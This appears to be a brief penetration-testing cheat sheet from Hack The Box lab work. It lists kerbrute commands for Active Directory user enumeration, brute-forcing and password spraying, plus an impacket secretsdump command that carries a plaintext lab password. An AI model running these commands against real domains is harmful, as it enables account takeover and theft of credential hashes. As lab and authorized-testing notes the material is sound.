 instal binary from https://github.com/ropnop/kerbrute/releases/tag/v1.0.3

## EnumUser

```
./kerbrute userenum -v --dc <IP address> -d <Domain> <User list>
```

## BruteUser

```
./kerbrute bruteuser -v --dc <IP address> -d <Domain> <Passoword list> <Username>
```

## Userlist & one password

```
./kerbrute passwordspray -v --dc 10.10.10.169 -d megabank.local users.txt 'Welcome123!
```

## seretsdump.py (impacket)

```
secretsdump.py 'htb.local/james:J@m3s_P@ssW0rd!@10.10.10.52'
```
